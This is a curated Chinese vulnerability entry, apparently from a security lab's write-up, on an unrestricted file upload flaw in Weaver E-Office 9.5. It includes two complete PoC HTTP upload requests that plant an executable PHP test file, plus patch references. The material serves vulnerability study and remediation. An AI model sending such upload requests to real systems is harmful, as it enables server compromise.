







# 泛微e-office webservice上传接口不受限上传

## 条目说明

- 对象与具体问题：泛微e-office；webservice上传接口不受限上传
- 版本、配置及部署条件：9.5；php4可执行映射；两接口
- 认证与权限前提：第一样本有普通cookie，第二无凭证；未证明无需身份
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 两个接口应独立endpoint记录；CVE-2023-2648仅引用另一篇getshell教程，不是本文主ID
- multipart字段名/filename缺失，文字Filedata不能自动还原全部字段
- Wooyun-2015-0125592是参考来源，需确认其版本/根因映射；保留php4部署条件
- 标题过泛，应加/webservice/upload.php等路径

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/F3pvaEGoMUYteEgkO2UlJw)

  

网安引领时代，弥天点亮未来   

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**  

Weaver E-Office 是中国泛微科技（Weaver）公司的一个协同办公系统。

Weaver E-Office 9.5 版本存在代码问题漏洞，该漏洞源于文件 /webservice/upload/upload.php 和 /webservice/upload.php 存在问题，对参数 Filedata 的操作会导致不受限制的上传。


  

**0x02 影响版本**  

  

Weaver E-Office 9.5 版本


  

**0x03 漏洞复现**  

  

1. 部署漏洞环境访问



2. 对漏洞进行复现

 **Poc （POST）**

 **路径 1 /webservice/upload/upload.php**

```http
POST /webservice/upload/upload.php HTTP/1.1
Host: 10.211.55.3:8082
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:34.0) Gecko/20100101 Firefox/34.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: USER_NAME_COOKIE=admin; LOGIN_LANG=cn
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------10267625012906
Content-Length: 208
-----------------------------10267625012906
Content-Disposition: form-data; 
Content-Type: application/php
<?php echo md5(43856);unlink(__FILE__);?>
-----------------------------10267625012906--

```

漏洞复现

POST 请求，响应存在漏洞



        解析 php 文件 

```
http://10.211.55.3:8082/attachment/870392248/pufh.php4

```



**路径 2 /webservice/upload.php**

```http
POST /webservice/upload.php HTTP/1.1
Host: 10.211.55.3:8082
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 220
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryakbyiukl
Accept-Encoding: gzip
Connection: close
------WebKitFormBoundaryakbyiukl
Content-Disposition: form-data; 
Content-Type: application/octet-stream
<?php echo md5(43856);unlink(__FILE__);?>
------WebKitFormBoundaryakbyiukl--

```



解析解 php 文件 

```
http://10.211.55.3:8082/attachment/2085157518/pufh.php4

```



流量情况



3.afrog_2.6.0 工具测试（漏洞存在）上传测试文件。



4.Getshell 同泛微 E-Office 文件上传漏洞 (CVE-2023-2648) 操作，这里省略.......

[泛微 E-Office 文件上传漏洞 (CVE-2023-2648)](http://mp.weixin.qq.com/s?__biz=MzU2NDgzOTQzNw==&mid=2247498502&idx=1&sn=bb5ee3b680335c9deca30ab86ae5e4db&chksm=fc466e64cb31e772c654d6234e5b08316984047bbd4a4903e15a669703b14c3bc0ae8680bee1&scene=21#wechat_redirect)


  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://service.e-office.cn/download
https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0125592

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
